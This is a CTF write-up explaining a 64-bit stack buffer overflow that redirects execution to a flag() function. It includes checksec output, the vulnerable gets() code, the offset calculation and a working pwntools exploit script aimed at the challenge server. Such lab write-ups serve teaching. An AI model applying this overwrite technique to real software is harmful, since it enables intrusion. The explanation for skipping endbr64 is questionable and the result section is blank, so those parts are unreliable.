

## 📄 Challenge Write-Up — "64-bit Buffer Overflow to `flag()`"

### 🔍 Challenge Description

We are given a 64-bit ELF binary (`vuln`) that prints:

> "Welcome to 64-bit. Give me a string that gets you the flag:"

And we must provide an input that will cause it to read and print the contents of `flag.txt`.

---

## 🧠 Binary Analysis

### 🔧 Security Protections

Using `checksec vuln`:

```
[*] '/path/to/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (Executable base is static)
```

➡️ Important observations:

* **No stack canary** → classic buffer overflow possible.
* **NX enabled** → can't inject shellcode; need to reuse existing functions.
* **PIE disabled** → static binary base → function addresses are fixed.

---

### 🔎 Vulnerable Function

```c
void vuln() {
    char buf[64];
    gets(buf);  // ❌ No bounds checking!
}
```

* `gets()` is **unsafe** and allows us to overflow the return address.
* Stack layout:

  * `buf` = 64 bytes
  * * saved `rbp` = 8 bytes
  * * return address = 8 bytes
      ➜ Total offset to overwrite return address = **72 bytes**

---

### Goal: Call `flag()`

```c
void flag() {
    FILE *f = fopen("flag.txt", "r");
    ...
    fgets(buf, FLAGSIZE, f);
    printf(buf);
}
```

* No arguments required.
* Just hijack RIP to point to `flag()`.

---

## 🧨 Exploit

### 🧠 Why `0x40123b`?

Disassembly of `flag()`:

```asm
0x00401236 <flag>:
    endbr64           ; CET instruction
0x0040123a: push rbp
0x0040123b: mov rbp, rsp
```

Calling `0x401236` directly might **fail** on some hardened systems due to `endbr64`. click [here](./endbr64.md) to learn more about endbr64


Jumping to `0x40123b` (just past `endbr64` and `push rbp`) lands you right at `mov rbp, rsp`, which works as expected.

So, `flag_addr = 0x40123b`.

---

### 🧪 Final Exploit Script

```python
from pwn import *

# ==== Configuration ====
DEBUG = False
HOST = 'saturn.picoctf.net'
PORT = 60443

elf = context.binary = ELF('./vuln')
context.log_level = 'debug'
context.bits = 64

# ==== Exploit Parameters ====
offset = 72
flag_addr = 0x40123b  # flag() function (skipping endbr64 and push rbp)

# ==== Start Local or Remote ====
if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

# ==== Build Payload ====
payload = b"A" * offset
payload += p64(flag_addr)

# ==== Exploit ====
p.sendline(payload)
p.interactive()
```

---

## ✅ Exploit Result

When run:



Success! We hijacked execution and printed the flag.

---


---

